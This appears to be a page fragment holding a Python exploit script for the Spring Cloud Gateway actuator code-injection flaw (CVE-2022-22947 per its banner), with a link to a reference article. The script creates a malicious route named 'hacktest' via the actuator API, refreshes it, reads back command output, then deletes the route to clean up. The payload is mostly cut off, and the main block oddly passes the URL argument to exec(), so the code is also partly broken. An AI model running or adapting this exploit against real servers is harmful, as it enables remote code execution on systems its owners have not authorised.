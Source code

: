 ```python
      "uri": "https://example.com",\r
      "order": 0\r
    }'''

   

    
    re1 = requests.post(url=url + "/actuator/gateway/routes/hacktest",data=payload,headers=headers1,json=json)
    re2 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
    re3 = requests.get(url=url + "/actuator/gateway/routes/hacktest",headers=headers2)
    re4 = requests.delete(url=url + "/actuator/gateway/routes/hacktest",headers=headers2)
    re5 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
    print(re3.text)


if __name__ == "__main__":
  print('''   ██████  ██      ██ ████████        ████   ████   ████   ████         ████   ████   ████     ██  ██████
  ██░░░░██░██     ░██░██░░░░░        █░░░ █ █░░░██ █░░░ █ █░░░ █       █░░░ █ █░░░ █ █░░░ █   █░█ ░░░░░░█
 ██    ░░ ░██     ░██░██            ░    ░█░█  █░█░    ░█░    ░█      ░    ░█░    ░█░█   ░█  █ ░█      ░█
░██       ░░██    ██ ░███████  █████   ███ ░█ █ ░█   ███    ███  █████   ███    ███ ░ ████  ██████     █ 
░██        ░░██  ██  ░██░░░░  ░░░░░   █░░  ░██  ░█  █░░    █░░  ░░░░░   █░░    █░░   ░░░█  ░░░░░█     █  
░░██    ██  ░░████   ░██             █     ░█   ░█ █      █            █      █        █       ░█    █   
 ░░██████    ░░██    ░████████      ░██████░ ████ ░██████░██████      ░██████░██████  █        ░█   █    
  ░░░░░░      ░░     ░░░░░░░░       ░░░░░░  ░░░░  ░░░░░░ ░░░░░░       ░░░░░░ ░░░░░░  ░         ░   ░     
 ██                   ██                 ██                              
░██       ██   ██    ░██                ░██                              
░██      ░░██ ██     ░██ ██   ██  █████ ░██  ██  ██████  ███████   █████ 
░██████   ░░███      ░██░██  ░██ ██░░░██░██ ██  ██░░░░██░░██░░░██ ██░░░██
░██░░░██   ░██    ██ ░██░██  ░██░██  ░░ ░████  ░██   ░██ ░██  ░██░███████
░██  ░██   ██    ░░  ░██░██  ░██░██   ██░██░██ ░██   ░██ ░██  ░██░██░░░░ 
░██████   ██      ██ ███░░██████░░█████ ░██░░██░░██████  ███  ░██░░██████
░░░░░    ░░      ░░ ░░░  ░░░░░░  ░░░░░  ░░  ░░  ░░░░░░  ░░░   ░░  ░░░░░░ 
usage: python3 test.py url
''')
  if(len(sys.argv)>1):
    url = sys.argv[1]
    exec(url)
  else:
    exit()
```

## Reference article

<a-alert type="success" message="https://mp.weixin.qq.com/s/lKKOUvWqU1Qpexus5u_3Uw" description="" showIcon>
</a-alert>
<br/>